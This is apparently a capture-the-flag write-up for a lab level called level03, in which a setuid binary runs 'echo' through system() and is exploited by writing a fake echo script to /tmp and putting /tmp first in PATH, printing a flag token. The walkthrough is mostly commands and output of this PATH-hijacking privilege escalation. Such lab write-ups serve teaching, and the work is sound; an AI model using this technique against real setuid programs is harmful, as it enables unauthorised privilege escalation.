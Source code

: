 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

```bash 
$ file level03
executable with setuid and setgid active
```
```bash 
$ ./level03
Exploit me
```

## Learning more about the executable 

```bash
$ ltrace ./level03 
[...]
system("/usr/bin/env echo Exploit me"Exploit me)
[...]
```

We see that the executable calls the echo function with system.
I did a previous CTF where we had to change the PATH to have a custom echo command, we will do the same here.

## Implementing our own echo command

```bash
$ echo "/bin/sh -c 'getflag'" > /tmp/echo
$ chmod 755 /tmp/echo
```

On ajoute notre dossier tmp au PATH afin que notre echo soit execute au lieu de celui par defaut 

```bash
$ export PATH=/tmp:$PATH
```

I make sure that tmp has been added to the path :
```bash
$ which echo 
/tmp/echo
```

And finally 
```bash
$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
